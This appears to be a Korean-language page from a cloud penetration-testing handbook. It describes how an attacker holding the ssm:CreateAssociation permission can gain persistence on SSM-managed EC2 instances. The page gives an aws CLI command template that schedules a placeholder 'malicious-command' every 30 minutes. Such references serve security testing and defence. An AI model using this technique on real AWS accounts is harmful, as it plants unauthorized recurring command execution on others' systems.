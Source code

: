 # AWS - SSM Perssitence

{{#include ../../../../banners/hacktricks-training.md}}

## SSM

자세한 정보는 다음을 확인하세요:

{{#ref}}
../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### ssm:CreateAssociation을 사용한 persistence

권한 **`ssm:CreateAssociation`** 을 가진 공격자는 SSM으로 관리되는 EC2 인스턴스에서 명령을 자동으로 실행하도록 State Manager Association을 생성할 수 있습니다. 이러한 associations는 고정된 간격으로 실행되도록 구성할 수 있어, 대화형 세션 없이도 backdoor-like persistence에 적합합니다.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> 이 지속성 방법은 EC2 인스턴스가 Systems Manager로 관리되고 SSM agent가 실행 중이며 공격자가 association을 생성할 권한이 있는 경우에 작동합니다. 이 방법은 대화형 세션이나 명시적인 ssm:SendCommand 권한을 필요로 하지 않습니다. **중요:** `--schedule-expression` 파라미터(예: `rate(30 minutes)`)는 AWS의 최소 간격인 30분을 준수해야 합니다. 즉시 또는 일회성 실행을 원하면 `--schedule-expression`을 완전히 생략하세요 — association은 생성 후 한 번 실행됩니다.

{{#include ../../../../banners/hacktricks-training.md}}
